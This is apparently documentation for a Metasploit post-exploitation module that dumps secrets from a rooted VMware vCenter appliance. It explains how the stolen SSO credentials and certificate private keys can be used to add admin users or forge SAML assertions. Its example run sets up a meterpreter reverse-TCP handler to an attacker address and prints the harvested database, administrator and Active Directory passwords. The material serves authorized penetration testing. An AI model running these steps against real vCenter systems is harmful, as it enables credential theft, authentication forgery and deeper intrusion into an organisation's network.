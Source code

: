 Grab secrets and keys from the vCenter server and add them to loot. Secrets include the dcAccountDN
and dcAccountPassword for the vCenter machine which can be used for maniuplating the SSO domain via
standard LDAP interface; good for plugging into the vmware_vcenter_vmdir_ldap module or for adding
new SSO admin users. The MACHINE_SSL, VMCA_ROOT and SSO IdP certificates with assocaited private keys
are also plundered and can be used to sign forged SAML assertions for the /ui admin interface.

## Vulnerable Application
This module is tested against the vCenter appliance only; it will not work on Windows vCenter
instances. It is intended to be run after successfully acquiring root access on a vCenter appliance
and is useful for penetrating further into the environment following a vCenter exploit that results
in a root shell. This module has been tested against vCenter appliance versions 7.0 and 6.7 but will
probably work against other versions of vCenter appliance.

## Verification Steps
This is a post module and requires a meterpreter or shell session on the vCenter appliance with root
access.

1. Start msfconsole
2. Get session on vCenter appliance via exploit of your choice and background it
3. Do: `use post/linux/gather/vcenter_secrets_dump`
4. Do: `set session <session>`
15. Do: `dump`

## Options
**SESSION**

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Example run from meterpreter session on vCenter appliance version 7.0.2

```
msf6 > use multi/handler
set payload linux/x86/meterpreter/reverse_tcp
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
set LPORT 4444
msf6 exploit(multi/handler) > set LHOST 192.168.101.10
LHOST => 192.168.101.10
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.101.10:4444 
[*] Sending stage (989032 bytes) to 192.168.100.11
[*] Meterpreter session 1 opened (192.168.101.10:4444 -> 192.168.100.11:53410 ) at 2022-04-17 19:04:00 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/linux/gather/vcenter_secrets_dump
msf6 post(linux/gather/vcenter_secrets_dump) > set session 1
session => 1
msf6 post(linux/gather/vcenter_secrets_dump) > dump

[*] Gathering vSphere SSO Domain Information ...
[*] vSphere Hostname and IPv4: vcenteralpha.cesium137.io [192.168.100.11]
[+] vSphere SSO DC DN: cn=vcenteralpha.cesium137.io,ou=Domain Controllers,dc=alpha,dc=vsphere,dc=local
[+] vSphere SSO DC PW: .Awo;Z1Zwd>x_b=h1FQ'}
[*] Extracting certificates from vSphere platform ...
[+] VMCA_ROOT key: /root/.msf4/loot/20220427093946_default_192.168.100.11_vmca_509760.key
[+] VMCA_ROOT cert: /root/.msf4/loot/20220427093946_default_192.168.100.11_vmca_797084.pem
[+] SSO_STS_IDP key: /root/.msf4/loot/20220427093948_default_192.168.100.11_idp_105611.key
[+] SSO_STS_IDP cert: /root/.msf4/loot/20220427093948_default_192.168.100.11_idp_779741.pem
[+] MACHINE_SSL_CERT key: /root/.msf4/loot/20220427093949_default_192.168.100.11_ssl_410730.key
[+] MACHINE_SSL_CERT cert: /root/.msf4/loot/20220427093950_default_192.168.100.11_ssl_759902.pem
[+] DATA-ENCIPHERMENT key: /root/.msf4/loot/20220427093950_default_192.168.100.11_data_199784.key
[+] DATA-ENCIPHERMENT cert: /root/.msf4/loot/20220427093951_default_192.168.100.11_data_119050.pem
[*] Extracting PostgreSQL database credentials ...
[+] VCDB Name: VCDB
[+] VCDB User: vc
[+] VCDB PW: my!h@)IN4jw$nHT{
[*] Searching for secrets in VM Guest Customization Specification XML ...
[*] Initial administrator account password found
[+] Built-in administrator PW: Metasploit1$
[*] AD domain join account found
[+] AD User: administrator@cesium137.io
[+] AD Pass: ThisIsSecret!
[*] Post module execution completed
```
